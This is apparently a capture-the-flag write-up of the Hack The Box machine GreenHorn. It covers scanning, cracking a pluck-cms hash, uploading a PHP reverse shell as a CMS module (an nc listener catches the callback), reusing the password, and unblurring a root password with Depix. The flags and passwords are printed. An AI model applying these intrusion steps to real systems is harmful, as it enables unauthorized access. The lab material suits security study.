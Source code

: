 ```yaml
---
layout: post
title: "GreenHorn"
description: "GreenHorn is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```



## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -sS -p22,80,3000 10.129.192.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 03:18 EDT
Nmap scan report for 10.129.192.3
Host is up (0.017s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=1ee532665089bb0f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=DUGsxkCFwrutsQVBgYT_VsX1rsk6MTcyMTU0NjI4ODA2ODM5MDQwNA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jul 2024 07:18:08 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=ac14f28e6f9f8419; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=Aa_QlcVDwfWBdoCRZnkAuYPccfE6MTcyMTU0NjI5MzIxNjY5NDExNQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sun, 21 Jul 2024 07:18:13 GMT
|_    Content-Length: 0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.86 seconds

```

Modify the hosts file:
```
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.192.3 greenhorn.htb
```


### Enumerate HTTP (Port 3000)
Gitea version `1.21.11` is running on the server. 
![Pasted image 20240721092244.png](/images/Pasted image 20240721092244.png){: .normal }

We find the following repo when we click on "Explore".
![Pasted image 20240721092731.png](/images/Pasted image 20240721092731.png){: .normal }

From the "CHANGES" file we can assume that the pluck-cms version is 4.7.3.
![Pasted image 20240721093400.png](/images/Pasted image 20240721093400.png){: .normal }

Found password hash:
![Pasted image 20240721093823.png](/images/Pasted image 20240721093823.png){: .normal }

We are able to crack the hash using crackstation.net.
![Pasted image 20240721093733.png](/images/Pasted image 20240721093733.png){: .normal }


### Enumerate HTTP (Port 80)
At the bottom of the landing page we see that pluck-cms is being used:
![Pasted image 20240721092040.png](/images/Pasted image 20240721092040.png){: .normal }

Go to the login page and use the previously found password:
![Pasted image 20240721093947.png](/images/Pasted image 20240721093947.png){: .normal }

We are now logged in:
![Pasted image 20240721094043.png](/images/Pasted image 20240721094043.png){: .normal }

Create a ZIP file containing a php reverse shell:
- [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [Exploit](https://www.youtube.com/watch?v=GpL_rz8jgro)

On the following page we can install the module (ZIP file we created).
![Pasted image 20240721100318.png](/images/Pasted image 20240721100318.png){: .normal }

Shell as www-data:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.15.32] from (UNKNOWN) [10.129.192.3] 59912
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 08:03:25 up 11:11,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Lateral movement
Found `junior` user in `/etc/passwd`. Since we still have the `iloveyou1` password we can try to switch to the `junior` user:
```
www-data@greenhorn:~$ su junior
Password: 
junior@greenhorn:/var/www$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
```

User.txt: `018749bc7be97c01e89d4b42004c6f22`
```
junior@greenhorn:~$ cat user.txt 
018749bc7be97c01e89d4b42004c6f22
```


### Privilege Escalation
Found OpenVAS in junior's home directory:
```
junior@greenhorn:~$ ls
user.txt  'Using OpenVAS.pdf'
```

```
Hello junior,
We have recently installed OpenVAS on our server to actively monitor and identify potential security vulnerabilities. Currently, only the root user, represented by myself, has the authorization to execute OpenVAS using the following command:

`sudo /usr/sbin/openvas`

Enter password:

As part of your familiarization with this tool, we encourage you to learn how to use OpenVAS
effectively. In the future, you will also have the capability to run OpenVAS by entering the same command and providing your password when prompted.

Feel free to reach out if you have any questions or need further assistance.

Have a great week,
Mr. Green
```

Retrieve blurred out password from PDF using following github project: [Link](https://github.com/spipm/Depix)
```
python3 depix.py -p /home/giiker/Downloads/test.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```
![Pasted image 20240721161656.png](/images/Pasted image 20240721161656.png){: .normal }


SSH as the root user using the password:
```
ssh root@10.129.164.35

PW: sidefromsidetheothersidesidefromsidetheotherside
```

Root.txt: `bcc4e3fd8f79a59d285963f279914617` 
```
root@greenhorn:~# cat root.txt 
bcc4e3fd8f79a59d285963f279914617
```

PWNED!!!
![Pasted image 20240721161528.png](/images/Pasted image 20240721161528.png){: .normal }